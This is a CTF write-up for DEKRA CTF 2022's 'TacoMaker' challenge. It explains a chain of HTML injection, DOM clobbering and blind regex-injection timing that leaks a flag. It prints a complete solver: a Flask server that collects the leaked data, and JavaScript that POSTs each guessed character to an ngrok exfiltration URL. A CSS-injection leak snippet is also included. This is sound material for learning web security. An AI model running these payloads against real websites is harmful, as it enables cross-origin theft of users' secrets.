 # TacoMaker @ DEKRA CTF 2022

## Description
What a taco to be alive!

## Solution

HTML Injection (CSP is very strict by blocklisting scripts by their sha256 hash) leading to DOM Clobbering to create a valid reference to `window.config`, `window.config.dev` and `window.ingredient`. Setting `window.ingredient`'s `href` will make its reference return a valid string which is then appended to a GET parameter value. Since `web.py:25` uses the last `ingredient` value, we may pollute the query by adding another `ingredient` value. After some checks in `getTaco` to make sure the query comes from selenium in the chall's origin (since referer header can't be changed by JS, only *shared* by using `no-referer` policy), there's a `re.match` call using previosuly-seen `ingredient` value as the regular expression it will be executing. By applying a technique like `forward search` (`foo(((.*)*)*)!`), when `foo` does exist, the rest of the expression takes exponential time to load. 

The side channel technique consists of checking the document's active element once an iframe hosting the challenge's page has been loaded. Since a `div` gets focused once the image has been loaded, checking if the active elements keeps being the document's body after a while means the iframe hasn't been loaded (or it is still loading), and so the regular expression works.

```
http://chall/?taco_name=<a id=config></a><a id=config name=dev></a><a id=ingredient href="//foo.bar/&ingredient=REGEX_INJECTION"></a>
```

## Extra

### CSS leak (patched) (@julianjm)

`img[src=^='static/taco3.jpg']{backgroud-image: url(your.server)}`

https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf

https://github.com/d0nutptr/sic

### URL parsing inconsistency/confusion (@hanstopoman)

`/.png;/../` -> chrome `/` & urlparse `/.png`

Unexploitable because a GET parameter is needed, thus providing a `?` like `/.png?something;/../` would make `something;/../` seen as GET data. 

https://claroty.com/wp-content/uploads/2022/01/Exploiting-URL-Parsing-Confusion.pdf

## solver.py

```py
from flask import Flask, request
from sys import stderr
from os import environ
import logging
import re

# Disable ALL flask output
logging.getLogger('werkzeug').disabled = True
environ['WERKZEUG_RUN_MAIN'] = 'true'

app = Flask(__name__)
flag = "FLAG{"


@app.route('/solve.png', methods=['GET'])
def get_file():
    global flag
    return open('solver.html').read().replace("FLAGHERE", flag.replace("\\", "\\\\"))


@app.route('/exfil', methods=['POST'])
def exfil():
    print(request.data.decode())
    return ""


@app.route('/setFlag', methods=['POST'])
def setflag():
    global flag
    flag = request.data.decode()
    print("Flag: " + flag)
    return ""


if __name__ == "__main__":
    app.run(port=1337)
```

## solver.html

```js
const EXFIL_URL = 'http://x.ngrok.io'
const CHALL_URL = 'http://tacomaker:4000'
const ALPHABET = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ%-'\\\"!¡¿?&(),/:;<=>@[]_`{}~".split(""); // python's string.printable
const CLOBBERING = '<a id=config></a><a id=config name=dev></a><a id=ingredient href="//foo.bar/&ingredient=INJECTION"></a>'
var known = "FLAGHERE", opened = 0;
const PARALLEL_WINDOWS = 5;

// https://developer.mozilla.org/es/docs/Web/JavaScript/Guide/Regular_Expressions
function escapeRegExp(string) {
    return string.replace(/[.*+\-?^$()|[\]\\]/g, '\\$&');
}

async function exfil(msg) {
    console.log(msg)
    await fetch(`${EXFIL_URL}/exfil`, { method: 'POST', body: msg, mode: 'no-cors' })
}

async function setFlag(flag) {
    await fetch(`${EXFIL_URL}/setFlag`, { method: 'POST', body: flag, mode: 'no-cors' })
}

async function leak(char) {
    let win = window.open(`${location.href}?foo`, "_blank"); // ?foo => location.search
    exfil(`Testing ${known}(${char}) - ${opened}`); // await may make the script take too long
    win.addEventListener("load", function () {
        win.postMessage({ 'regex': `${encodeURIComponent(escapeRegExp(known + char))}(((((.*)*)*)*)*)!`, 'flag': `${known + char}` }, "*");
    })
}

if (location.search.substr(1)) {

    // sub
    window.addEventListener("message", (event) => {
        var frame = document.createElement('iframe')
        let param = encodeURIComponent(CLOBBERING.replace('INJECTION', event.data.regex))
        frame.src = `${CHALL_URL}/?taco_name=${param}`

        frame.onload = function () {
            let counter = 0
            setInterval((() => {
                if (document.activeElement != document.body) {
                    event.source.postMessage("foo", "*")
                } else {
                    if (counter > 3) { // 5s
                        event.source.postMessage(event.data.flag, "*")
                    } else {
                        counter++;
                    }
                }
            }), 1000)
        }

        document.body.appendChild(frame);

    });

} else {

    // main
    window.addEventListener("message", (event) => {
        if (event.data != "foo") {
            known = event.data;
            setFlag(known)
        }
        event.source.close()
        opened--
    });


    let iterator = 0;

    setInterval((() => {
        if (opened <= PARALLEL_WINDOWS) {
            leak(ALPHABET[iterator])
            opened++

            if (iterator == ALPHABET.length - 1) {
                iterator = 0;
            } else {
                ++iterator;
            }
        }
    }), 100)
}
```

## References

https://terjanq.medium.com/dom-clobbering-techniques-8443547ebe94

https://stackoverflow.com/questions/1599660/which-html-elements-can-receive-focus

https://blog.p6.is/time-based-regex-injection/ , https://diary.shift-js.info/blind-regular-expression-injection/

